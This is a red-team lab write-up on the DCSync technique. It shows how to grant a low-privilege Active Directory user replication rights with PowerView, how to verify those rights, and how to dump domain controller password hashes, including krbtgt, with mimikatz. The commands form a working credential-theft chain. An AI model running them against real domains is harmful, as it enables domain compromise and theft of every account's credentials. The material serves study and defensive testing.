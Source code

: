 ```yaml
---
layout: post
title: "dump password hashes from domain controller with dcsync"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-kerberos-abuse/
---
```


# DCSync: Dump Password Hashes from Domain Controller

This lab shows how a misconfigured AD domain object permissions can be abused to dump DC password hashes using the DCSync technique with mimikatz.

It is known that the below permissions can be abused to sync credentials from a Domain Controller:

> * The “[**DS-Replication-Get-Changes**](https://msdn.microsoft.com/en-us/library/ms684354\(v=vs.85\).aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes
>   * **GUID:** 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes All**](https://msdn.microsoft.com/en-us/library/ms684355\(v=vs.85\).aspx)” extended right
>   * **CN:** DS-Replication-Get-Changes-All
>   * **GUID:** 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
> * The “[**Replicating Directory Changes In Filtered Set**](https://msdn.microsoft.com/en-us/library/hh338663\(v=vs.85\).aspx)” extended right (this one isn’t always needed but we can add it just in case :)
>   * **CN:** DS-Replication-Get-Changes-In-Filtered-Set
>   * **GUID:** 89e95b76-444d-4c62-991a-0facbeda640c
>
> [http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/](http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/)

## Execution

Inspecting domain's `offense.local` permissions, it can be observed that user `spotless` does not have any special rights just yet:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-18-32.png>)

Using PowerView, we can grant user `spotless` 3 rights that would allow them to grab password hashes from the DC:

{% code title="attacker@victim" %}
```csharp
Add-ObjectACL -PrincipalIdentity spotless -Rights DCSync
```
{% endcode %}

Below shows the above command and also proves that spotless does not belong to any privileged group:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-21-02.png>)

However, inspecting `offense.local` domain object's privileges now, we can see 3 new rights related to `Directory Replication` added:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-21-09.png>)

Let's grab the SID of the user spotless with `whoami /all`:

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-28-18.png>)

Using powerview, let's check that the user `spotless` `S-1-5-21-2552734371-813931464-1050690807-1106` has the same privileges as seen above using the GUI:

{% code title="attacker@kali" %}
```csharp
Get-ObjectAcl -Identity "dc=offense,dc=local" -ResolveGUIDs | ? {$_.SecurityIdentifier -match "S-1-5-21-2552734371-813931464-1050690807-1106"}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-27-54.png>)

Additionally, we can achieve the same result without PowerView if we have access to AD Powershell module:

{% code title="attacker@victim" %}
```csharp
Import-Module ActiveDirectory
(Get-Acl "ad:\dc=offense,dc=local").Access | ? {$_.IdentityReference -match 'spotless' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 15-11-36.png>)

See [Active Directory Enumeration with AD Module without RSAT or Admin Privileges](active-directory-enumeration-with-ad-module-without-rsat-or-admin-privileges.md) to learn how to get AD module without admin privileges.

### DCSyncing Hashes

Since the user `spotless` has now the required privileges to use `DCSync`, we can use mimikatz to dump password hashes from the DC via:

{% code title="attacker@victim" %}
```csharp
lsadump::dcsync /user:krbtgt
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-02-09 14-34-44.png>)

## References

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-active-directory-permissions-with-powerview/" %}

{% embed url="https://blog.stealthbits.com/extracting-user-password-data-with-mimikatz-dcsync/" %}

{% embed url="https://medium.com/@jsecurity101/syncing-into-the-shadows-bbd656dd14c8" %}
@spotheplanet
